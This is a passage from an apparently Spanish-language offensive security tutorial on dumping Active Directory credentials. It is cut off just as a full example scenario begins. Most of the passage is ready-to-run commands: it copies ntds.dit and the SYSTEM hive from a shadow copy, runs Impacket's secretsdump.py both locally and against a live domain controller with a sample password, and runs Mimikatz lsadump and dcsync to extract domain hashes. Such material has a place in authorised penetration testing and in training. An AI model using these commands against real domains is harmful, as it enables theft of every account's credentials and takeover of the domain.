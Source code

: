 Luego, buscamos el path del shadow:

```
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

Y copiamos los archivos necesarios:

```cmd
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit" C:\temp\
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" C:\temp\
```

---

#### ✅ 2. **Usando secretsdump.py (Impacket)**

Una de las herramientas más prácticas para la enumeración de `NTDS.dit` es [**Impacket**](https://github.com/fortra/impacket), específicamente el script `secretsdump.py`.

##### ▶️ Modo 1: Desde archivo `ntds.dit` + SYSTEM

```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

Esto extrae los **hashes de todas las cuentas del dominio**.

##### ▶️ Modo 2: Desde el DC en vivo (remoto)

```bash
secretsdump.py administrator:'Password123'@10.0.0.1
```

Esto conecta al DC y saca los hashes directamente desde el servicio LSASS y NTDS.

---

#### ✅ 3. **Con Mimikatz (desde PowerShell en el DC)**

```powershell
privilege::debug
lsadump::lsa
lsadump::sam
lsadump::dcsync /domain:midominio.local /user:Administrador
```

El comando `dcsync` imita una replicación de DC y extrae el hash del usuario administrador del dominio.

---

### 🧪 EJEMPLO COMPLETO

---

#### 🎓 Escenario:

Tienes acceso al **Controlador de Dominio Windows Server 2019** como administrador. Quieres extraer los usuarios y sus hashes usando Impacket desde Kali Linux.

---